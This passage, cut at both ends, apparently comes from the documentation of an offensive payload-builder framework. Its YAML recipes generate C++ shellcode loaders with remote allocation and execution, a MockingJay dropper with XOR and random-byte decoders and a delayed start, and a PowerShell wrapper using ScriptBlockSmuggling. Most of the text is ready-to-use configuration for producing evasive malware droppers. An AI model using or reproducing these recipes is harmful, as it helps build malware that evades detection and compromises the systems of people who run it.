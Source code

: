```yaml

    - !cpp.alloc_remote
      name: Alloc memory and copy shellcode
      method: sections
      protection: rx

    - !cpp.clean
      name: Clean raw memory
      variable: raw

    - !cpp.exec_remote
      name: Execute shellcode
```

#### MockingJay

```yaml
- !codewriter.cpp
  &code
  name: Generate MockingJay dropper
  functions: dynamic
  output_type: exe
  payload_placement: data
  decoders:
    - *xor
    - *rndb
    - *rndf
  blocks:
    - !cpp.delay
      name: Delay execution
      seconds: 5

    - !cpp.mockingjay
      name: Generate mockingjay stub
      library: mscorlib.ni.dll

    - !cpp.drop
      name: Execute shellcode
```

### PowerShell

#### ScriptBlockSmuggling

```yaml
- !codewriter.ScriptBlockSmuggling
  name: Wrap script with ScriptBlockSmuggling technique
```

### CSharp

#### SQLAssembly
